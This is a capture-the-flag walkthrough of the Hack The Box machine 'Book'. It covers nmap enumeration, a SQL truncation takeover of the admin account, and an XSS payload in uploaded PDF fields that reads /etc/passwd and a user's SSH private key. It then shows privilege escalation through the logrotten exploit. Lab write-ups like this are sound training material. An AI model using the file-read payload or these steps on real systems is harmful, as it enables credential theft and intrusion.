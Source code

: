 ```yaml
---
layout: post
title:  Hack The Box - Book
category: walkthrough
date:   2020-07-25 07:00:00
---
```


# ![Book](/assets/img/book/book.png)  
<p align="center"> Book is a medium machine created by <a href="https:/www.hackthebox.eu/home/users/profile/13531">MrR3boot</a></p>  
  
  
  
# Enumeration
  
<center>As always, begin with nmap</center>  

### <center>nmap</center>  
  
<hr>
nmap -sC -sV -T4 -p 22,80 10.10.10.176
<hr>  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-25 00:18 -03  
>Nmap scan report for 10.10.10.176  
>Host is up (0.19s latency).  
>  
>PORT   STATE SERVICE VERSION  
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
>| ssh-hostkey:   
>|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)  
>|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)  
>|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)  
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
>| http-cookie-flags:   
>|   /:   
>|     PHPSESSID:   
>|_      httponly flag not set  
>|_http-server-header: Apache/2.4.29 (Ubuntu)  
>|_http-title: LIBRARY - Read | Learn | Have Fun  
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 12.69 second    
  
<center>Opening the port 80 I got this</center>  
# ![book1](/assets/img/book/book1.png)
  
<center>After register I found the admin  email: admin@book.htb</center>  
# ![book2](/assets/img/book/book3.png)
  
<center>At first I didn't know what to do with this</center>  
<center>Until I back to home page, look the source and find this</center>  
# ![book3](/assets/img/book/book2.png)  
  
### <center>SQL Truncation</center>
  
<p align="center">Using <a href="https://resources.infosecinstitute.com/sql-truncation-attack/">SQL truncation</a> with Burp Suite I tested "name" and "email" fields with more characters</p>  
  
# ![book4](/assets/img/book/book4.png)  
  
<center>Logged in with the credentials admin@book.htb qwerty</center>  
  
# ![book5](/assets/img/book/book5.png)  
  
<p align="center">Using <a href="https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html">this</a> as reference I found a way in</p>  
  
### <center>Exploit</center> 
  
<center>Loged as user again I uploaded a pdf with the fields "author" and "book title" filled with this script (missing script tags) </center>  

  
<hr>
<center>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</center>  
<hr>
  
<center>Downloading the pdf at http://10.10.10.176/admin/collections.php?type=collections I got the /etc/passwd</center>  

# ![book6](/assets/img/book/book6.png)  
  
<center>If I was runnin to get user blood next step would be "file:///home/reader/user.txt"</center>  
  
<center>Before get the id_rsa from reader I tried root, perhaps...</center>  
  
<center>Now I know that there is a user called reader, I chnged the script part "///etc/passwd" to "/home/reader/.ssh/id_rsa and uploaded a new pdf, downloaded it again and a got the id_rsa from user reader</center>  
  
<center>Copy that to another file called id_rsa and "chmod 600 id_rsa"</center>  
  
# ![book7](/assets/img/book/book7.png)  
  
<center>Now just <br><hr>ssh -i id_rsa reader@10.10.10.176"<hr><br></center>  
  
# ![book8](/assets/img/book/book8.png)
  
  
# Privilege Escalation  
  
  
<center>After enumerate almost everything and don't find nothing</center>  
<p align="center">I used <a href="https://github.com/DominicBreuker/pspy.git">pspy</a> and find root process</p>  
<hr>
<center>scp -i id_rsa pspy64 reader@10.10.10.176</center>  
<hr>
  
  
<center>pspy give me this process logrotate /usr/sbin/logrotate -f /root/log.cfg</center>  
  
# ![book9](/assets/img/book/book9.png)  
  
<p align="center">Search logrotate exploit in google and found <a href="https://github.com/whotwagner/logrotten">this</a> on github</p>  
<center>Cloned the repository and uploaded it with scp command</center>  
<center>Unziped the archive and compiled the logrotten.c with gcc</center>  
  
<center>gcc -o logrotten logrotten.c</center>  
  
<center>Created the payload  and executed logrotten</center>  
  
# ![book10](/assets/img/book/book10.png)  
  
<center>Now just cat /tmp/id_rsa to another file and ssh to root</center>  
  
  
# ![book11](/assets/img/book/book11.png)  
# ![book12](/assets/img/book/book12.png)  
  
